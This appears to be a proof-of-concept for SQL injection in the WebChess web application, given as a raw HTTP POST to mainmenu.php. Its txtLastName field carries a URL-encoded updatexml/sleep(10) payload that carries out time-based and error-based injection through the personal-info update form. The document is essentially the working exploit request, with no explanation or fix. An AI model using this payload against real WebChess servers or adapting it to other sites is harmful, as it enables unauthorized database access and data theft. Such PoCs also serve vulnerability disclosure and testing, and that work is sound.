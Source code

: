 # webchess_sqli_poc

POST /webchess/mainmenu.php HTTP/1.1

Host: 127.0.0.1

Content-Length: 216

Cache-Control: max-age=0

sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Linux"

Upgrade-Insecure-Requests: 1

Origin: http://127.0.0.1

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://127.0.0.1/webchess/mainmenu.php

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=0h36rka0b1ijafmi9enqn3cjat

Connection: close



txtFirstName=test11&txtLastName=%27+or+updatexml%280%2Cconcat%280x7e%2C%28select+*+from+%28select%28sleep%2810%29%29%29a%29%29%2C0%29+or+%27&pwdOldPassword=123&pwdPassword=123&pwdPassword2=123&ToDo=UpdatePersonalInfo
